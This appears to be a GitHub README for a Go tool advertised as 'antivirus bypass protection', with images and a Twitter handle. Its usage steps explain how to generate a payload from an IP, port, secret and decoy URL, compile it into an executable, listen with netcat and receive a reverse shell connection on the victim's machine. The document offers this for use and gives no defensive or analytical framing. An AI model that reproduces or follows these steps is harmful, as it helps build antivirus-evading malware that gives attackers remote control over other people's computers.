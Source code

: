 # antivirus bypass protection 

requirements
 - golang installed

### usage

```
1 - create your payload
        go run create.go <ip> <port> <secret> <any url>
        e.g: go run create.go 1.1.1.1 443 SecRet_kira https://www.youtube.com/watch?v=Rv4VzpGCEEM
2 - in output folder you will find shell.go compile it 
    go build shell.go

3 - now you have exe file to execute run netcat 

4 - you will receive reverse shell connection 
```
<a href=""></a>
<img src="https://pbs.twimg.com/media/E84XVv3XoAAUncw?format=png&name=900x900">


<img src="https://pbs.twimg.com/media/E84X1GaWUAAJS43?format=png&name=900x900">

## twitter: kira_321k

